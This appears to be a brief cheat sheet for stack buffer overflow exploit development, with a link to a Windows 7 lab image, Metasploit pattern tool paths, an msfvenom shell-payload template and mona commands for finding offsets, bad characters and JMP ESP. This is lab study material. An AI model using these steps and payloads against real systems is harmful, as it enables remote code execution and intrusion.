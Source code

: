 # BOF

Win 7 OVA --> `https://mega.nz/file/EdFWXZCC#5P_qBh0b8FyTQGAEckbZKi1gqs31tOlKpY0B7Z1WYm0`

# Metasploit utilities

### Pattern

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb` \
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb`

### Payload

`msfvenom -p <SHELL> LHOST=<IP> LPORT=<PORT> -b "<BADCHARS>" -f python`

# Mona commands

### Set working directory
`!mona config -set workingfolder c:\mona\%p`

### Get EIP offset
`!mona findmsp -distance 600`

### Create bytearray
`!mona bytearray -b "\x00\x0a"`

### Search for badchars
`!mona compare -f C:\mona\bytearray.bin -a <ESP_ADDRESS>`

### Search for JMP ESP 
`!mona jmp -r esp -cpb "<FOUND_BADCHARS>"`
